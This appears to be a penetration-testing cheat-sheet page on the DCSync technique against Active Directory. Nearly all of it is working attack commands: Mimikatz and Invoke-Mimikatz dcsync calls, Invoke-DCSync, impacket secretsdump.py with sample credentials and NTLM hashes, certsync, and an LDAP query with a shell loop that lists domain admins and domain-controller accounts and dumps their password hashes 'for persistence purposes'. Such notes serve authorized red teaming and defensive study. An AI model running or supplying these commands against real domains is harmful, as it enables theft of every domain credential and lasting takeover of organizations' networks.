 ```yaml
---
description: DS-Replication-Get-Changes + DS-Replication-Get-Changes-All
---
```


# DCSync

* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync)

{% embed url="https://twitter.com/cnotin/status/1419944965443047424" %}

{% embed url="https://twitter.com/NotMedic/status/1535768397493026818" %}




## Tools



### Mimikatz

```
mimikatz # lsadump::dcsync /domain:megacorp.local /user:MEGACORP\krbtgt
mimikatz # lsadump::dcsync /domain:megacorp.local /user:krbtgt@megacorp.local
```


#### Invoke-Mimikatz

* [https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-Mimikatz.ps1](https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-Mimikatz.ps1)

```
PS > Invoke-Mimikatz -Command '"lsadump::dcsync /domain:megacorp.local /user:MEGACORP\krbtgt" "exit"'
```



### Invoke-DCSync.ps1

* [https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-DCSync.ps1](https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-DCSync.ps1)

```
PS > Invoke-DCSync -GetComputers -Domain megacorp.local -DomainController DC1.megacorp.local
```



### secretsdump.py

```
$ secretsdump.py MEGACORP/snovvcrash:'Passw0rd!'@DC1.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt'
$ secretsdump.py DC1.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
```


#### Targeted DCSync

When performing targeted DCSync (e. g., for persistence purposes) choose the most valuable accounts. One can use the following LDAP query to search for effective domain admins (`adminCount=1`) as well as DC computer accounts (`SERVER_TRUST_ACCOUNT` bit or `userAccountControl=8192` is set):

```
(&
	(|
		(&(objectCategory=person)(objectClass=user))
		(&(objectCategory=computer)(objectClass=computer))
	)
	(!(userAccountControl:1.2.840.113556.1.4.803:=2))
	(|
		(adminCount=1)
		(userAccountControl:1.2.840.113556.1.4.803:=8192)
	)
)

$ windapsearch --dc 192.168.1.11 -d megacorp.local -u 'DC1$' --hash fc525c9683e8fe067095ba2ddc971889 -m custom --filter '(&(|(&(objectCategory=person)(objectClass=user))(&(objectCategory=computer)(objectClass=computer)))(!(userAccountControl:1.2.840.113556.1.4.803:=2))(|(adminCount=1)(userAccountControl:1.2.840.113556.1.4.803:=8192)))' --attrs msDS-PrincipalName | grep msDS | awk '{print $2}' | tee high-value-targets.txt
$ for t in `cat high-value-targets.txt`; do secretsdump.py -pwd-last-set MEGACORP/'DC1$'@192.168.2.22 -hashes :fc525c9683e8fe067095ba2ddc971889 -just-dc-user $t | grep aad3b | tee -a high-value-hashes.txt; done
Or
$ secretsdump.py -pwd-last-set MEGACORP/snovvcrash:'Passw0rd!'@DC1.megacorp.local -dc-ip 192.168.1.11 -ldapfilter '(&(|(&(objectCategory=person)(objectClass=user))(&(objectCategory=computer)(objectClass=computer)))(!(userAccountControl:1.2.840.113556.1.4.803:=2))(|(adminCount=1)(userAccountControl:1.2.840.113556.1.4.803:=8192)))' | grep aad3b | tee high-value-hashes.txt
```



### certsync

- [https://github.com/zblurx/certsync](https://github.com/zblurx/certsync)

```
$ certsync -d megacorp.local -u snovvcrash -p 'Passw0rd!' -dc-ip 192.168.1.11 -ns 192.168.1.11
```

